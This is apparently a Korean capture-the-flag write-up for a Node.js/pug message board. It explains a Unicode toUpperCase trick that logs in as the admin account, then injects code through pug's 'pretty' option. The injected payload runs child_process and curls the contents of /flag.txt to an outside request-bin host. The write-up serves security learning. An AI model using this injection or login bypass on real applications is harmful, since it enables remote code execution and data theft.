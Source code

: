 <h1>1. 웹페이지 접속</h1>

![image](./image/biscboard1.png)


 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.

![image](./image/biscboard2.png)

 
  

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.

![image](./image/biscboard3.png)
 
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.


![image](./image/biscboard4.png)
 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

<h1>2. 소스코드 분석</h1>
 

<h2>2.1. /login</h2>
 
![image](./image/biscboard5.png)
 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 

![image](./image/biscboard6.png)
 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

<h2>2.2. /edit</h2>
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.

![image](./image/biscboard7.png)
 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

참고자료 - https://github.com/pugjs/pug/issues/3312
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

 

<h1>3. 공격 시나리오</h1>
 

1) BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 

4. 공격 과정
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 

```
ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
```

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 

![image](./image/biscboard8.png)
 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 

![image](./image/biscboard9.png)
 


![image](./image/biscboard10.png)
 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 

```
// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
``` 



![image](./image/biscboard11.png)
 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 

![image](./image/biscboard12.png)
 



![image](./image/biscboard13.png)
 

 

<h1>5. Reference</h1>
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
